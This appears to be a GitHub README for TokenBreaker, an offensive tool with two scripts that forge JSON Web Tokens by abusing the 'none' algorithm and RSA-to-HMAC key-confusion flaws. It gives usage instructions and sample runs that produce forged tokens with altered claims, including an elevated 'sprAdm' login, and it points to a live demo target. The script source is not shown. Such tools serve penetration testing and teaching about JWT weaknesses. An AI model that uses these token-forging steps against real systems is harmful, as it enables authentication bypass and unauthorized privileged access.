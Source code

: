 # TokenBreaker

Token Breaker is focused on 2 particular vulnerability related to JWT tokens.

 - None Algorithm
 - RSAtoHMAC

Refer to [this](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/) link about insights of the vulnerability and how an attacker can forge the tokens

Try out this vulnerability [here](http://demo.sjoerdlangkemper.nl/jwtdemo/rs256.php?)

## TheNone Usage
```
usage: TheNone.py [-h] -t TOKEN

TokenBreaker: 1.TheNoneAlgorithm

optional arguments:
  -h, --help            show this help message and exit

required arguments:
  -t TOKEN, --token TOKEN
                        JWT Token value

Example Usage: python TheNone.py -t [JWTtoken]
```

### Output
```
$ ./TheNone.py -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXUyJ9.eyJsb2dpbiI6ImFkbSIsImlhdCI6IjE1Mzc1MjMxMjIifQ.ZWZhNjRmZDgzYWYzNDcxMjk5OTQ4YzE0NDVjMTNhZmJmYTQ5ZDhmYjY0ZDgyMzlhMjMwMGJlMTRhODA2NGU4MQ

TheNone

[*] Decoded Header value is: {"alg":"HS256","typ":"JWS"}
[*] Decoded Payload value is: {"login":"adm","iat":"1537523122"}
[*] New header value with none algorithm: {"alg":"None","typ":"JWS"}
[<] Modify Header? [y/N]: n
[<] Enter your payload: {"login":"sprAdm","iat":"0"}
[+] Successfully encoded Token: eyJhbGciOiJOb25lIiwidHlwIjoiSldTIn0.eyJsb2dpbiI6InNwckFkbSIsImlhdCI6IjAifQ.
```

## RSAtoHMAC Usage
```
usage: RsaToHmac.py [-h] -t TOKEN -p PUBKEY

TokenBreaker: 1.RSAtoHMAC

optional arguments:
  -h, --help                        show this help message and exit

required arguments:
  -t TOKEN, --token TOKEN           JWT Token value
  -p PUBKEY, --pubkey PUBKEY        Path to Public key File

Example Usage: python RsatoHMAC.py -t [JWTtoken] -p [PathtoPublickeyfile]</pre></code>
```

### Output
```
$ ./RsaToHmac.py -t eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTU0MDM3NjA2MSwiZXhwIjoxNTQwMzc2MTgxLCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0.HI50KvoHzcf7znWkrdugn5-O-68PpJAeiS21cLisC1WgEI21gWnqqvv3oqsnzbGkIt21NvPVHWFXoKJmLPKHeMeYLgc7nuVdF37WWd7M1XzZEP8zLoed7Z6K0KfNuR_CRsjogv1KAt8fJQvRzRhFi9dORHGxWRqpiInIgLKROLgXB-7Rv2SOYdyD_XylRaVJ1JpmmCyVmIbzVWhVuRJWT59AUm43yYRP3bBt-bnhMfkzFpwxTk3O84-On4DoIt6NIkRJaxXDUdDKscLGmSWQmdZsZds3XSV0ZgN0PObADqkZwwCBAqUTT7l5BVcBmasdnNuZ8cCDKzNtJr2cdow6zQ -p public.pem

RSA to HMAC

[*] Decoded Header value: {"typ":"JWT","alg":"RS256"}
[*] Decode Payload value: {"iss":"http:\/\/demo.sjoerdlangkemper.nl\/","iat":1540376061,"exp":1540376181,"data":{"hello":"world"}}
[*] New header value with HMAC: {"typ":"JWT","alg":"HS256"}
[<] Modify Header? [y/N]: n
[<] Enter Your Payload value: {"iss":"http:\/\/www.google.com\/","iat":2351287873,"exp":1843945693,"data":{"hello":"hacked!"}}
[+] Successfully Encoded Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC93d3cuZ29vZ2xlLmNvbVwvIiwiaWF0IjoyMzUxMjg3ODczLCJleHAiOjE4NDM5NDU2OTMsImRhdGEiOnsiaGVsbG8iOiJoYWNrZWQhIn19.8jfUVCZPA7cWaSfe0LIjRt692RaFHnnvtw0jHoSAneQ
```
